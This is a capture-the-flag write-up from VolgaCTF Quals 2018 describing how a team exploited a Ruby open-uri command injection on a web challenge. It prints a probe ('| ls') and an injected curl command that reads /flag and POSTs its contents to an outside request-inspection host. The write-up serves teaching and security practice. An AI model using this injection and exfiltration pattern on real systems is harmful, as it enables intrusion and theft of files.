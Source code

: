 # VolgaCTF Quals 2018 : Old government site

**Team:** NOPS
**Category:** Web
**Points:** 150
**Description:**  
It's an old government web-site. Please, don't touch it. It works properly.

## Write-up

After connecting to the website, you have access to some links, no forms. Nevertheless we saw that pages are fetched with an id: `http://old-government-site.quals.2018.volgactf.ru:8080/page?id=33`

We run a script to see if there were some hidden pages and found one with the id: `id=18`

It asks us to enter a website.
If you enter a correct website like http://google.com you have a string showing `validated` whereas is you only put google.com, it shows `error`.

When you enter a correct website, the server does a GET request on it.

So we played a bit with this field and found out that `/etc` is a correct website. We then tried with the linux filesystem `/var` and some linux commands `/bin/ls` etc and finally, we tried `/flag`. It worked. Nice, maybe it's where the flag is, but how can we access it ?

Up to now, we know that the script behind is executing the command we give or send a GET request on the url.

We also know that the framework used for the website is Sinatra. if you request an unknow web page, it gives you an error.
Sinatra is in ruby.

So we have to find a function in ruby that could open a file or a URL.

We found open-uri and the vulnerabilities related to it: [sakurity.com](https://sakurity.com/blog/2015/02/28/openuri.html)

Let's try a `| ls` : it's validated. We've got a command injection. Let's craft our command so it can read the /flag file and send it to a server: `|curl -d "$(cat /flag)" -X POST http://ptsv2.com/t/3awt7-1521988385/post` (we use ptsv2 website to inspect the content of the HTTP requests)

Bingo ! We've got out flag ! 